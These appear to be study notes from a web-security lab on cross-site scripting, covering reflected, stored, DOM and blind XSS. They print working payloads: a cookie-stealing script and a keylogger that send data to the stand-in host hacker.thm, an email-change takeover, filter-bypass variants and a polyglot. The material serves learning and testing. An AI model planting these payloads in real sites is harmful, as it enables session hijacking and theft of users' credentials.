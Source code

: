 # Cross site scripting

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

![57bba44ee6b1ec88fc1fbc50ba6b287b.png](../../images/57bba44ee6b1ec88fc1fbc50ba6b287b.png)

## Stored XSS

 the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
 
 ![8379549aac79f679c836088b8e0768ea.png](../../images/8379549aac79f679c836088b8e0768ea.png)

**How to test for Stored XSS:**  

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

* Comments on a blog
* User profile information  
* Website Listings

## DOM based XSS

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

**Example Scenario:**  
  
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

## Blind XSS

Blind XSS is similar to a stored XSS (which we covered in task 4) in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com/). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.

---

## Perfecting the payload

Levels of sophistication of payload based on HTML element or JS used 

1. <h2> Hello, <script>alert('THM');</script></h2>
2. "><script>alert('THM')</script>
    - e.g.
    - <input value=""><script>alert('THM');</script>
3. </textarea><script>alert('THM');</script>
    - <textarea></textarea><script>alert('THM');</script></textarea>
4. `;alert('THM');//`
    - `<script>document.getElementByClassName('name')[0].innerHTML='';alert('THM');//'`
5. if there is a filter that removes the word `script`, we can use 
    - <sscriptcript>alert('THM');</sscriptcript>
6. if an input field is reflected as is in an img tag, we can do: 
    - /images/cat.jpg" onload="alert('THM');

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels above, and it would have executed the code successfully. 

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```